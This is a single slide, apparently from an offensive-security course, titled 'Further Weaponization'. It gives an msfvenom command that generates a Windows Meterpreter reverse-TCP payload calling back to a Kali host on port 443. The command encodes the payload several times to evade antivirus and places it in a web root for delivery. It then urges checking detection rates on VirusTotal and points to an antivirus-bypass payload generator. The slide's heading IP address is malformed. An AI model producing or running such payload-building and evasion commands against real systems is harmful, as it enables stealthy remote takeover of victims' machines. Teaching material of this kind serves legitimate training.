

# Further Weaponization
Encode your executable on Kali (192.168.32.1369):
–	root@kali:~#	msfvenom -p windows/meterpreter/reverse_tcp -e  x86/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=192.168.32.136  LPORT=443 -f exe >
/var/www/html/Encoded_Reverse_Https.exe

Compare detection rate of your files on VirusTotal!
Check: https://www.christophertruncer.com/veil-a-payload-  generator-to-bypass-antivirus/

BORROWED